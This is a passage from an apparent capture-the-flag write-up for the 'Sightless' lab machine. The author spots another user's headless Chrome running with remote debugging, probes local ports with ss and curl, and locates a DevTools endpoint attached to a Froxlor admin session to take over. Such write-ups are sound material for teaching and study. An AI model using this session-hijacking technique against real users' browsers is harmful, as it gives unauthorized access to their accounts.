 ```terminal
/usr/bin/python3 /home/john/automation/administration.py                                                                                     
/home/john/automation/chromedriver --port=37871                                                                                               
/opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.3xsGRc data:, 
[...]
/bin/bash /home/john/automation/healthcheck.sh
sleep 60
```
As you can see john is running google-chrome with remote debugging enabled ! This is great because it allows us to interact with his session and see what he is doing. `--remote-debugging-port=0` means that chrome will use a random port, so first we need to find out which port is used. I'll list all open ports, and as explained in [this post](https://stackoverflow.com/questions/52783655/use-curl-with-chrome-remote-debugging), if I curl `json` it should return me output.
```terminal
michael@sightless:~$ ss -tuln |awk '{print $1, $5}'
Netid Local
udp 127.0.0.53%lo:53
udp 0.0.0.0:68
tcp 127.0.0.53%lo:53
tcp 0.0.0.0:80
tcp 127.0.0.1:8080
tcp 0.0.0.0:22
tcp 127.0.0.1:3306
tcp 127.0.0.1:46013
tcp 127.0.0.1:3000
tcp 127.0.0.1:37871
tcp 127.0.0.1:38983
tcp 127.0.0.1:33060
tcp *:21
tcp [::]:22
michael@sightless:~$ curl http://127.0.0.1:46013/json
404: Page Not Found
michael@sightless:~$ curl http://127.0.0.1:37871/json
{"value":{"error":"unknown command","message":"unknown command: unknown command: json","stacktrace":"#0 0x559635347e43 \u003Cunknown>\n#1 0x5596350364e7 \u003Cunknown>\n#2 0x55963509d6b2 \u003Cunknown>\n#3 0x55963509d18f \u003Cunknown>\n#4 0x559635002a18 \u003Cunknown>\n#5 0x55963530c16b \u003Cunknown>\n#6 0x5596353100bb \u003Cunknown>\n#7 0x5596352f8281 \u003Cunknown>\n#8 0x559635310c22 \u003Cunknown>\n#9 0x5596352dd13f \u003Cunknown>\n#10 0x559635001027 \u003Cunknown>\n#11 0x7fa41f046d90 \u003Cunknown>\n"}}
michael@sightless:~$ curl http://127.0.0.1:38983/json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=127.0.0.1:38983/devtools/page/808BE4E06885A551AAB634E133D0410F",
   "id": "808BE4E06885A551AAB634E133D0410F",
   "title": "Froxlor",
   "type": "page",
   "url": "http://admin.sightless.htb:8080/index.php",
   "webSocketDebuggerUrl": "ws://127.0.0.1:38983/devtools/page/808BE4E06885A551AAB634E133D0410F"
} ]
```
Ports 46013 and 37871 returned some strange stuff, however 38983 returned the expected json ! We can interact with this chrome session by many different ways, one of which is the chrome developper tools. To find out what I could do with this remote debugging chrome browser that john runs, I used a lot of google and found [this tutorial](https://developer.chrome.com/docs/devtools/remote-debugging/local-server) I can actually have access to his browser in real time ! A lot of steps are incoming, so don't worry if it's not quite clear I'll sum it up at the end.